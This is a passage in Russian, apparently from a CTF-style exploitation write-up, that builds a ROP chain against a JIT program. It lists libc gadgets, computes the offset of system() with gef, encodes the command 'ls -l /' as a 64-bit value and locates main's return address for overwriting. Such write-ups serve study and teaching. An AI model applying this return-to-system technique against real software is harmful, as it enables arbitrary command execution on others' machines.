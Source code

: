 ```asm
0x0000000000178197: pop rdi; cmp esi, dword ptr [rdi + rax]; jne 0x1781a4; add rax, rdi; vzeroupper; ret; 
0x000000000017486b: pop rdi; cmp sil, byte ptr [rdi + rax]; jne 0x174879; add rax, rdi; vzeroupper; ret; 
0x000000000004598e: pop rdi; idiv edi; jmp qword ptr [rsi + 0xf]; 
0x000000000015c38f: pop rdi; in al, dx; dec dword ptr [rax - 0x77]; ret; 
0x0000000000026ca5: pop rdi; jmp rax; 
0x00000000000e2da4: pop rdi; jmp rdi; 
0x00000000000f1a2d: pop rdi; mov cl, 0xff; inc dword ptr [rcx - 0x77]; ret; 
0x00000000000e2d84: pop rdi; mov eax, 0x3a; syscall; 
0x000000000011fe08: pop rdi; or eax, 0x64d8f700; mov dword ptr [rcx], eax; or rax, 0xffffffffffffffff; ret; 
0x0000000000023e75: pop rdi; pop rbp; ret; 
0x000000000003dc3d: pop rdi; rcl byte ptr [rdi], 0; call 0x33550; xor eax, eax; ret; 
0x0000000000126838: pop rdi; sbb byte ptr [rax + 0x39], cl; ret; 
0x000000000012686d: pop rdi; sbb byte ptr [rax - 0x77], cl; ret 0x2948; 
0x000000000016aebd: pop rdi; sbb eax, 0x8b48fff2; and al, 8; add rsp, 0x10; pop rbx; ret; 
0x0000000000198a10: pop rdi; xor eax, eax; add rsp, 0x38; ret; 
0x0000000000023b65: pop rdi; ret; 
```

Совсем другое дело. Последний гаджет, кажется, поможет нам больше всего.

```c
gef➤  p/d (long long)system - (0x00007ffff7c00000 + 0x0000000000023b65)
$3 = 174523
```

(`0x00007ffff7c00000` — начальный адрес libc, как видно из vmmap)

```asm
mov c b
sub c 174523
```

Осталось понять, что же класть в `rdi`. Туда мы положим как раз адрес на стеке JIT-программы, в который через `push` положим шелл-код, например, `ls -l /`. Это 8 байт, включая нулевой. Эту 8-байтовую бинарную строку нужно перевести в 64-битное число, которое `push` превратит в то, что нужно. Вспоминая, что x86-64 использует little-endian, получаем это число так:

```shell
$ echo $((0x$(printf "ls -l /\0" | rev | xxd -p)))
13264972891059052
```

Наконец, поймём, где лежит адрес возврата main, то есть что же нам нужно перетирать. Для этого можно, например, посмотреть текущий `rsp`:

```c
gef➤  p $rsp
$4 = (void *) 0x7fffffffdc30
```

Потом поставить breakpoint на выход из `main` и пропустить текущую инструкцию `jmp $`:

```c
gef➤  disas
Dump of assembler code for function main:
...
   0x0000555555555204 <+155>: xor    rdx,rdx
=> 0x0000555555555207 <+158>: jmp    0x555555555207 <main+158>
   0x0000555555555209 <+160>: xor    rcx,rcx
...
   0x0000555555555268 <+255>: mov    rbx,QWORD PTR [rbp-0x8]
   0x000055555555526c <+259>: leave
   0x000055555555526d <+260>: ret

gef➤  b *0x000055555555526d
Breakpoint 1 at 0x55555555526d: file <stdin>, line 52.
```